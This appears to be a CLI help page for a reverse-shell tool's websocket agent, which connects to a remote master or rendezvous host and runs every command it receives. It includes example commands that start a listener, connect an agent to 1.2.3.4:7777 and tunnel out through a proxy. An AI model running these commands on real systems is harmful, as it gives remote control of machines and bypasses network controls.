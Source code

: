 ## reverse-shell-agent websocket

Agent that connects to a websocket endpoints and wait for commands

### Synopsis

Connect to a remote websocket and execute every command received. The remote host can be a `master` or a `rendezvous`.

```
reverse-shell-agent websocket [flags]
```

### Examples

```
# On the master (1.2.3.4)
$ reverse-shell-master listen --port 7777

# On the agent
$ reverse-shell-agent websocket --url http://1.2.3.4:7777

Once an agent connects, you will be able to write commands in *stdin* that will be directly executed on the agent. You can also connect to a rendezvous point instead of a master.

You can also connect to the outside using a proxy:
$ http_proxy=http://your-proxy:3128 https_proxy=http://your-proxy:3128 agent websocket -U http://1.2.3.4:7777

```

### Options

```
  -h, --help         help for websocket
      --url string   url of the remote websocket endpoint
```

### Options inherited from parent commands

```
  -v, --verbose int   Be verbose on log output
```

### SEE ALSO

* [reverse-shell-agent](reverse-shell-agent.md)	 - Agents listening for remote commands

